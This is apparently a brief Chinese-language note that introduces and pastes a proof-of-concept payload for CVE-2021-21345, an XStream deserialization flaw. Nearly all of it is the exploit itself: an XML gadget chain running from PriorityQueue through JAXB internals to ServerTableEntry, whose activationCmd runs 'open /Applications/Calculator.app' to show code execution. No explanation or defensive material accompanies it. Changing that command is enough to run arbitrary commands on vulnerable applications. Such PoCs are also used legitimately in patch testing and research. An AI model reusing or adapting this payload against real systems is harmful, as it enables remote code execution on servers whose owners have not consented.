 先粘贴一下cve-2021-21345的poc

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                          <name>verify</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.corba.se.impl.activation.ServerTableEntry'>
                  <activationCmd>open /Applications/Calculator.app</activationCmd>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```